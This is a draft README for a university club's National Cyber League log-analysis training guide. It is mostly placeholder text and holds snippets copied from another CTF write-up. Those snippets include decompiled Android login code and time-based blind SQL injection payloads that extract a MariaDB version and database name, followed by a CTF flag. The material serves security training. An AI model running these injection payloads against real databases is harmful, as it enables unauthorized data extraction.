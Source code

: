 <p align="center">
  <img src="https://raw.githubusercontent.com/layer-zero-unlv/training-sessions/master/images/layer-zero-logo.png" width="600" height="400" />
</p>

<!-- TODO: Maybe modify the img src to local like images/layer-zero-logo.png to prevent hard-coding in the source -->

# Layer Zero NCL Training Guide - LOGS

Guide on National Cyber League's `Log Analysis (LOGS)` category.

## Lorem Ipsum

Lorem `ipsum dolor` sit amet.

## Lorem Ipsum

Lorem *ipsum* dolor **sit** amet.

```PowerShell

    $Variable = Invoke-WebRequest -Uri https://www.gieraelortega.com/

```

## How do I download this repository?

Install Git and run `git clone https://github.com/layer-zero-unlv/training-sessions.git`

or 

Use the `Clone or Download` option and select `Download ZIP`

## Additional References/Resources
1. https://layer-zero.org/
2. https://involvementcenter.unlv.edu/organization/layer_zero
3. https://github.com/layer-zero-unlv



# Temporary snippets retrieved from another CTF writeup to use as a reference for structure/writing


![Challenge 1](images/OSINT-1.png)

Something Something

`Code or snippet or website or something`

Something else:

```python
>>> bin_array_image = ['0b01111010', '0b01101100', '0b01101001', '0b01100010', '0b00101011', '0b01111000', '0b10011100', '0b01001011', '0b11001010', '0b00101100', '0b11010001', '0b01001011', '0b11001001', '0b11010111', '0b11001111', '0b00110000', '0b00101100', '0b11001001', '0b01001000', '0b00101101', '0b11001010', '0b00000101', '0b00000000', '0b00100101', '0b11010010', '0b00000101', '0b00101001']
>>> s = ''.join(chr(int(x,2)) for x in bin_array_image)
>>> print(s)
zlib+xKÊ,ÑKÉ×Ï0,ÉH-Ê %Ò)
```

```java
private void attemptLogin() throws Exception {
    ...
    JSONObject jSONObject = new JSONObject();
    jSONObject.put("username", username);
    jSONObject.put("password", password);
    jSONObject.put("cmd", "getTemp");
    Volley.newRequestQueue(this).add(new PayloadRequest(jSONObject, new Listener<String>() {
        public void onResponse(String str) {
            if (str == null) {
                LoginActivity.this.loginSuccess();
                return;
            }
            LoginActivity.this.showProgress(false);
            LoginActivity.this.mPasswordView.setError(str);
            LoginActivity.this.mPasswordView.requestFocus();
        }
    }));
```

In `attemptLogin` the App builds a json object like this: `{"username": "", "password": "", "cmd": "getTemp"}` and then instantiates a  `PayloadRequest` object which will be added to a Volley Queue to be processed. So let's see what does this class do.


```PowerShell
$Foo = Invoke-WebRequest -Uri https://www.google.com
```

#### version()
```java
	public static String blindVersion() throws Exception {
		String injection = "'||(IF((SELECT ascii(substr(version(),%d,1)))%c%d,SLEEP(%d),1))#";
		return PayloadRequest.blindString(injection, 25);
	}
	// 10.1.37-MariaDB
```

#### database()
```java
	public static String blindDatabase() throws Exception {
		String injection = "'||(IF((SELECT ascii(substr(database(),%d,1)))%c%d,SLEEP(%d),1))#";
		return PayloadRequest.blindString(injection, 25);
	}
	// flitebackend
```


Two tables found: `devices` and `users` in `flitebackend` database.


```CONGRATULATIONS!

If you're reading this, you've made it to the end of the road for this CTF.
```

HERE IT IS: c8889970d9fb722066f31e804e351993